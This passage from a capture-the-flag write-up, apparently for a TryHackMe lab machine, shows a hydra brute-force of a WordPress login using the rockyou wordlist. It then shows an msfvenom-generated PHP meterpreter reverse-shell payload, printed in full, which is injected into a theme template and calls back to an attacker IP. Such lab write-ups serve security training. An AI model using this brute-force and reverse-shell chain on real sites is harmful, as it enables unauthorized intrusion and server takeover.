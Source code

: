 ```bash
root@kali:~/ctf# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.215.86 http-post-form '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:is incorrect'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-05 05:17:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.215.86:80/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:is incorrect
[STATUS] 1934.00 tries/min, 1934 tries in 00:01h, 14342465 to do in 123:36h, 16 active
[80][http-post-form] host: 10.10.215.86   login: admin   password: my2boys
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-05 05:19:49
```

By the time I'd returned the bruteforce had yielded the password `my2boys` which I was able to confirm allowed me access to the admin panel.

![wordpress admin panel](/img/internal_http_wp_admin.png)

### Popping a shell through wp admin

With access to the admin panel, I decided to generate a reverse-tcp meterpreter shell that could be injected into the theme.

I generated a `php/meterpreter/reverse_tcp` shell using `msfvenom` and backed up the index.php theme template before replacing it with the following generated shellcode.

```bash
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.253.137 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1114 bytes
/*<?php /**/ error_reporting(0); $ip = '10.10.253.137'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

![wordpress template injection](/img/internal_http_wp_shell_injection.png)
